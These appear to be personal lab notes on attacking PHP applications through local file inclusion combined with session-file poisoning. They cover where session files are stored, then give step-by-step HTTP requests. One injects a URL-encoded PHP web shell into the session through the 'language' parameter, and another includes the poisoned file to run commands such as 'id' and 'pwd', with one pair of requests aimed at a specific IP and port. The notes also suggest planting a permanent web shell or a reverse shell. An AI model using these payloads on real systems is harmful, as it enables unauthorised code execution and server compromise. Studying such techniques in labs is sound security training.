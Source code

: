 
User sessions are stored in log files
	`/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows

These sessions are linked to user cookies in order to track data between user request to keep an active session


E.g
	 `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`
		 /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3


Test to see if we can include session file(Find variables in session file we can control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
(If we can control a parameter then we can get a potential web shell)

Setting web shell
```http
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Executing on webshell
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
***Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

http://94.237.54.116:58945/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E


http://94.237.54.116:58945/index.php?language=/var/lib/php/sessions/sess_7hovjsk1r0jj5dcqre3ir95aqt&cmd=pwd

